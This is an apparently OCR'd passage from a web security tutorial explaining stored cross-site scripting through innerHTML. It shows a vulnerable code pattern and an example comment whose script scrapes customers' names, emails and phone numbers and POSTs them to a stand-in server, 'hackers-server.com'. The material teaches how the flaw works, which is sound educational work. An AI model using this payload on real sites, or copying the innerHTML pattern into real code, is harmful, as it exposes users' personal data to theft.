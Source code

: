 This usually happens when developers apply HTTP request results to the DOM literally, than as strings.

```javascript
/*
* Create a DOM node of type 'div.
* Append to this div a string to be interpreted as DOM rather than text.
*/
const comment = 'my <strong>comment</strong>';
const div = document.createElement('div');
div.innerHTML = comment;
/*
* Append the div to the DOM, with it the innerHTML DOM from the comment.
* Because the comment is interpreted as DOM, it will be parsed
* and translated into DOM elements upon load.
*/
const wrapper = document.querySelector('#commentArea');
wrapper.appendChild(div);
```

Because the text is appended literally to the DOM, it is interpreted as DOM markup
rather than text. Our customer support request included a `<strong></strong>` tag in
this case.
In a more malicious case, we could have caused a lot of havoc using the same vulnerability. Script tags are the most popular way to take advantage of XSS vulnerabilities,
but there are many ways to take advantage of such a bug.
Consider if the comment had the following instead of just a tag to bold the
text:

```html
Loving the outfit.
<script>
/*
* Get a list of all customers from the page.
*/
const customers = document.querySelectorAll('.user-comment');
/*
* Iterate through each DOM element containing the user-comment class,
* collecting privileged personal identifier information (PII)
* and store that data in the customerData array.
*/
const customerData = [];
customers.forEach((customer) => {
customerData.push({
firstName: customer.querySelector('.firstName').innerText,
lastName: customer.querySelector('.lastName').innerText,
email: customer.querySelector('.email').innerText,
phone: customer.querySelector('.phone').innerText
});
});
/*
* Build a new HTTP request, and exfiltrate the previously collected
* data to the hacker's own servers.
*/
const http = new XMLHttpRequest();
http.open('POST', 'https://hackers-server.com/data', true);
http.setRequestHeader('Content-type', 'application/json');
http.send(JSON.stringify(customerData);
</script>
```
